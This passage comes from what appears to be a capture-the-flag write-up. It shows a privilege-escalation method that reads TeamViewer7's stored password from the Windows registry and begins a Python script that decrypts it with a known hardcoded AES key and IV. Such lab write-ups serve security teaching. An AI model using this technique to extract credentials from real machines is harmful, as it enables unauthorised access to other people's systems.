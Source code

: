
<h5 align="left">Method 2:</h5>

If we enumerate the fille system we will see that TeamViewer7 is installed. Teamviewer is a remote desktop sharing application that stores it's passwords in the windows registry accessable to low privileged users and encrypted with a known key. There is a detailed writeup <a href="https://whynotsecurity.com/blog/teamviewer/">here</a> as well as a python script to decrypt the password once retrieved from the registery. We can view the registry entry with

```
reg query hklm\software\wow6432node\teamviewer\version7
```

![teamviewer registry](/assets/img/writeups/remote_teamviewerregistry.png)

If we then run the python decryption script from the above site

```python
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")
```